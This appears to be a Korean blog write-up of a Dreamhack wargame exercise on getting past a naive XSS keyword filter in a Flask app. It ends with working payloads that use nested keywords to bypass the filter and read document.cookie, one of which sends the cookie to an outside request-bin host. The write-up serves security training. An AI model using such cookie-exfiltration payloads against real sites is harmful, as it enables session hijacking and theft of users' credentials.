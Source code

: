 ```yaml
---
layout : single
title : "[Dreamhack] STAGE2. XSS Filtering Bypass 함께실습"
categories: web-hacking-advanced
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


- [x] xss filtering bypass

# Web Hacking [함께실습] xss filtering bypass


## 웹 서비스 분석
### 엔드포인트 : /vuln

이용자가 전달한 param 파라미터 값 출력

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    param = xss_filter(param)
    return param
```

xss_filter : XSS 취약점을 막으려는 시도 / script, on, javascript 필터링

```python
def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            text = text.replace(f, "")
    return text
```

### 엔드포인트 : /memo

이용자가 전달한 memo 파라미터 값을 render_template 함수를 통해 기록 / 출력

```python
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)
```

### 엔드포인트 : /flag

1) GET : 이용자에게 URL을 입력받는 페이지 제공
2) POST : param에 값과 쿠키에 flag를 포함하여 check_xss 함수 호출

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

```python
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

## 취약점 분석 / 익스플로잇

### 취약점 분석 

vuln , memo 엔드포인트는 이용자의 입력값을 페이지에 그대로 출력하며, memo는 render_template 을 통해 memo.html을 출력한다. render_template 함수는 전달된 템플릿 변수를 기록할 때 HTML 엔티티코드로 변환해 저장하기에, XSS 취약점이 발생하지 않는다. 그러나, vuln은 이용자가 입력한 값을 페이지에 그대로 출력하기에 XSS 취약점이 발생할 수 있다. 

filter_xss 함수를 통해 script, on, javascript 총 세 개의 키워드를 필터링하나, 키워드를 한 번만 제거하기에, 쉽게 우회 가능하다

### 익스플로잇

location.href : 전체 URL을 반환하거나, URL을 업데이트할 수 있는 속성
document.cookie : 해당 패이지에서 사용하는 쿠키를 읽고, 쓰는 속성

```javascript
<scronipt>document.locatioonn.href = "/memo?memo=" + document.cookie;</scronipt>
```

<img src="/images/wargame/23.png">

```javascript
<scronipt>document['locatio'+'n'].href = "http://kyjwjya.request.dreamhack.games/?memo=" + document.cookie;</scronipt>
```

<img src="/images/wargame/22.png">